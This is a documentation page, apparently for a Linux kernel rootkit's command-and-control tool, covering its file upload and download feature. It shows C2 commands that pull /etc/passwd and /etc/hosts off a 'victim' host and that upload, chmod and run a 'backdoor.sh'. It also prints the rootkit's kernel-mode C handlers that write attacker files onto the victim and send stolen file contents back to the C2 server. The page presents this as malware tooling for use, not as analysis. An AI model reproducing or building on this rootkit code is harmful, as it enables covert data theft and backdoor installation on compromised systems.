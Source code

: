 ```yaml
---
title: "File Transfer"
description: "Upload and download files between C2 server and victim system"
icon: "file-transfer"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 52
---
```


# File Transfer

Transfer files between the C2 server and victim system using direct content transmission.

## How It Works

### Upload Process
1. **C2 reads local file** and sends content
2. **Rootkit receives** filename and content
3. **Creates file** on victim system using `filp_open()`
4. **Writes content** using `kernel_write()`

### Download Process
1. **C2 requests file** by path
2. **Rootkit opens file** using `filp_open()`
3. **Reads content** using `kernel_read()`
4. **Sends content** back to C2 server

## Upload Feature

### Basic Usage
```bash
# Upload file to specific path
c2-server$ upload Client-1 ./config.txt /etc/myapp/config.txt
# ✓ File uploaded successfully (1024 bytes)

# Upload to current directory (uses basename)
c2-server$ upload Client-1 ./script.sh
# ✓ File uploaded successfully (512 bytes) -> ./script.sh
```


### Implementation Details
- **File creation**: Uses `O_WRONLY | O_CREAT | O_TRUNC` flags
- **Permissions**: Files created with 0644 permissions
- **Size limits**: 10MB maximum file size

## Download Feature

### Basic Usage
```bash
# Download to specific local path
c2-server$ download Client-1 /etc/passwd ./victim_passwd
# ✓ File downloaded successfully (2048 bytes)

# Download to current directory (uses basename)
c2-server$ download Client-1 /etc/hostname
# ✓ File downloaded successfully (64 bytes) -> ./hostname
```


## Real Examples

### System Files
```bash
# Download system configuration
c2-server$ download Client-1 /etc/passwd
# ✓ File downloaded successfully (2048 bytes)
# Content: root:x:0:0:root:/root:/bin/bash
#          daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
#          ...

# Download network configuration
c2-server$ download Client-1 /etc/hosts
# ✓ File downloaded successfully (256 bytes)
# Content: 127.0.0.1	localhost
#          127.0.1.1	victim
#          ...
```


### Upload Scripts
```bash
# Upload a shell script
c2-server$ upload Client-1 ./backdoor.sh /tmp/backdoor.sh
# ✓ File uploaded successfully (1024 bytes)

# Make it executable (via exec command)
c2-server$ exec Client-1 chmod +x /tmp/backdoor.sh
# Exit code: 0

# Run the script
c2-server$ exec Client-1 /tmp/backdoor.sh
# Exit code: 0
# Output: Backdoor installed successfully
```


## Technical Implementation

### Upload Handler
```c
static int handle_upload(const char *data)
{
    char *filename, *file_content, *separator;
    struct file *file;
    loff_t pos = 0;
    ssize_t bytes_written;
    
    // Parse filename:content format
    separator = strchr(data, ':');
    *separator = '\0';
    filename = data;
    file_content = separator + 1;
    
    // Validate filename
    if (!validate_filename(filename))
        return send_error("Invalid or unsafe filename");
    
    // Create and write file
    file = filp_open(filename, O_WRONLY | O_CREAT | O_TRUNC, 0644);
    bytes_written = kernel_write(file, file_content, content_length, &pos);
    filp_close(file, NULL);
    
    return send_success("File uploaded successfully");
}
```

### Download Handler
```c
static int handle_download(const char *data)
{
    struct file *file;
    loff_t file_size, pos = 0;
    char *file_content, *result_buffer;
    ssize_t bytes_read;
    
    // Open file
    file = filp_open(data, O_RDONLY, 0);
    if (IS_ERR(file))
        return send_error("File not found or cannot be opened");
    
    // Check file size
    file_size = i_size_read(file_inode(file));
    if (file_size > MAX_FILE_SIZE) {
        filp_close(file, NULL);
        return send_error("File too large to download");
    }
    
    // Read file content
    file_content = vmalloc(file_size + 1);
    bytes_read = kernel_read(file, file_content, file_size, &pos);
    file_content[bytes_read] = '\0';
    
    // Format response
    result_buffer = vmalloc(file_size + 32);
    snprintf(result_buffer, file_size + 32, "DOWNLOAD:%s", file_content);
    
    return send_result(result_buffer);
}
```

## Configuration

```c
// rootkit/core/config.h
#define MAX_FILE_SIZE (10 * 1024 * 1024)  // 10MB
#define MAX_FILENAME_LENGTH 255
```